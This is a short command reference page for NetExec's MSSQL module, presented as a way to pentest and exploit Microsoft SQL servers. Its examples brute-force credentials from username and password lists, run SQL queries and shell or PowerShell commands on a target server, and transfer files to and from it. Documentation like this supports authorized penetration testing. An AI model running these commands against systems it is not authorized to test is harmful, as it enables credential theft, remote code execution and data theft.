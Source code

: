 # nxc-mssql

> Pentest and exploit Microsoft SQL servers. More information: <https://www.netexec.wiki/mssql-protocol>.

## Examples

### Search for valid credentials by trying out every combination in the specified lists of usernames and passwords

```bash
nxc mssql 192.168.178.2 [-u|--username] path/to/usernames.txt [-p|--password] path/to/passwords.txt
```

### Execute the specified SQL query on the target server

```bash
nxc mssql 192.168.178.2 [-u|--username] username [-p|--password] password [-q|--query] 'SELECT * FROM sys.databases;'
```

### Execute the specified shell command on the target server through MSSQL

```bash
nxc mssql 192.168.178.2 [-u|--username] username [-p|--password] password -x whoami
```

### Execute the specified PowerShell command on the target server through MSSQL without retrieving output

```bash
nxc mssql 192.168.178.2 [-u|--username] username [-p|--password] password -X whoami --no-output
```

### Download a remote file from the target server and store it in the specified location

```bash
nxc mssql 192.168.178.2 [-u|--username] username [-p|--password] password --get-file C:\path\to\remote_file path/to/local_file
```

### Upload a local file to the specified location on the target server

```bash
nxc mssql 192.168.178.2 [-u|--username] username [-p|--password] password --put-file path/to/local_file C:\path\to\remote_file
```
